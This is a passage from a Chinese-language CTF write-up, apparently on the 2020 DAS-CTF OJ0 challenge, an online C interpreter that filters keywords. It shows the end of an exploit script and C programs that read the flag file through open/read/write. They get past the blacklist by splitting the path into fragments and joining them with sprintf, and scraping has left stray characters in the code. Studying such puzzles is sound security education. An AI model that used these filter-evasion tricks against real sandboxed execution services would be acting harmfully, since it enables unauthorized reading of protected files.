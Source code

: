 ```
            traceback.print_exc()
            sh.close()
            continue

if __name__ == "__main__":
    flag = Attack()
    log.success('The flag is ' + re.search(r'flag`{`.+`}`',flag).group())
```



## 0x05 以 2020 DAS-CTF OJ0 为例

> 安恒月赛的题目为闭源信息，本例题不会给出任何形式的附件下载地址

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-14-015306.png)

可以发现，这是一个C语言的解释器，可以执行我们输入的任意代码，然后依据题目要求输出指定信息后，会执行`tree /home/ctf`命令，从而告知我们`flag`文件的具体位置。

接下来我们需要构造代码进行`flag`的读取。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

根据题目信息回显，可以发现，题目应该是存在有黑名单机制，那么我们不考虑启动`shell`，转而考虑使用`ORW`的方式获取`flag`，那么最简单的程序：

```
#include&lt;stdio.h&gt;
int main()`{`
    char buf[50]; 
    char path[50] = "/home/ctf/flagx00"; 
    int fd = open(path);
    read(fd,buf,50);
    write(1,buf,50);
`}`@
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-14-020007.png)

可以发现被过滤了，那么考虑黑名单应该会检测整段代码，以防止出现`home`、`ctf`、`flag`等敏感字符，那么我们可以利用`string`函数进行字符串的拼接来绕过保护。

### <a class="reference-link" name="FInal%20Exploit"></a>FInal Exploit

```
#include&lt;stdio.h&gt;
#include&lt;string.h&gt;
int main()`{`
    char buf[50]; 
    char path_part_1[5] = "/hom"; 
    char path_part_2[5] = "e/ct"; 
    char path_part_3[5] = "f/fl"; 
    char path_part_4[5] = "agx00"; 
    char path[20];
    sprintf(path, "%s%s%s%s", path_part_1, path_part_2, path_part_3, path_part_4);
    int fd = open(path);
    read(fd,buf,50);
    write(1,buf,50);
`}`@
```
